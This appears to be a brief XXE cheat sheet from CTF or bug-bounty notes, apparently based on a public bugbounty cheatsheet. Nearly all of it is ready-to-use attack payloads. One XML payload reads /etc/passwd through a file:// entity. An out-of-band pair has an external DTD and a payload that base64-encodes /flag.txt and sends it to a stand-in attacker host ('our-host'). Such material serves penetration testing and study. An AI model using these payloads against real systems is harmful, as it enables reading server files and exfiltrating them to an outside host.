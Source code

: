 ## XXE

### LFI

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

### OOB

`external.dtd`

```xml
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://our-host/dtd.xml?%data;'>"> %eval;
```

`payload sending to server`

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
 <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
 <!ENTITY % oob SYSTEM "http://our-host-where-external-dtd-is/external.dtd">
 %oob;
]>
<root> &exfil; </root>
```

ref: https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md
